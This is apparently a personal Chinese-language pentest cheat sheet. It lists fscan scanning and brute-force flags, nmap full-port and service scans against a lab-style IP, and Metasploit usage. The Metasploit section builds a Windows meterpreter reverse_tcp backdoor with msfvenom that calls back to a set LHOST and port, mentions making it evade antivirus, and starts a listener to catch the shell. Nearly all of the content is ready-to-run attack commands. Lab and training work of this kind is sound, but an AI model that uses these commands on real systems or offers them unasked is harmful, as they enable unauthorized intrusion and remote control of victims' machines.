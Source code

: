 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

## fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
## dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
## nmap
### nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
### nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
## msfconsole
### msf快捷键
ctrl+z将当前Meterpreter 会话收到后台
### msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```
- 注意：payload--windows/meterpreter/reverse_tcp为32位程序而payload---windows/x64/meterpreter/reverse_tcp​​为64位payload，在监听时要对应否则会导致连接秒断

对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)

### msf监听连接
```msf
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.123.23 
set lport 444 
exploit -j  # 后台监听,不占用当前命令行
```
- 注意要设置payload
- 注意：`payload--windows/meterpreter/reverse_tcp`为`32`位程序而`payload`---`windows/x64/meterpreter/reverse_tcp​​`为64位`payload`，在监听时要对应否则会导致连接秒断